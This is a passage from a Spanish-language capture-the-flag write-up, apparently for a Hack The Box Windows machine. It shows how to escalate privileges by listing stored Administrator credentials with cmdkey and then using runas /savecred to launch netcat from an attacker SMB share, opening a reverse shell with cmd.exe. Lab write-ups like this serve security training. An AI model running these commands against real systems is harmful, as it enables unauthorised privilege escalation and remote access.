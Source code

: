 ```text

C:\Users\security\Desktop>type user.txt
```

Listo, hemos obtenido la flag de user.

# PrivEsc

Después de verificar algunos datos sobre la cuenta, enumerar y enumerar un rato, encontré algo curioso con cmdkey:

```text
C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator

    Target: Domain:interactive=administrator@10.10.10.98
                                                            Type: Domain Password
    User: administrator@10.10.10.98

    Target: Domain:interactive=access\engineer
                                                  Type: Domain Password
    User: access\engineer


C:\Users\security\Desktop>
```

Tenemos almacenadas las credenciales de Administrator para el usuario engineer! Gracias `/list`!

Esto significa que es posible usar las credenciales almacenadas para ejecutar instrucciones en nombre de Administrator.

Por cierto si quieren saber mas sobre cmdkey, les dejo este [link](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey).

# Give me a reverse shell

En mi caso, me complique un poco de más y realice lo siguiente:

Usar las credenciales de Administrator para ejecutar un cmd.exe que remotamente ejecute un netcat que a su vez llame a un cmd. Esto significa que del lado de mi máquina levanta un smbserver y un listener de netcat.

```text
C:\Users\security>runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\10.10.13.32\a\nc.exe -vn 10.10.13.32 3001 -e cmd.exe"
```
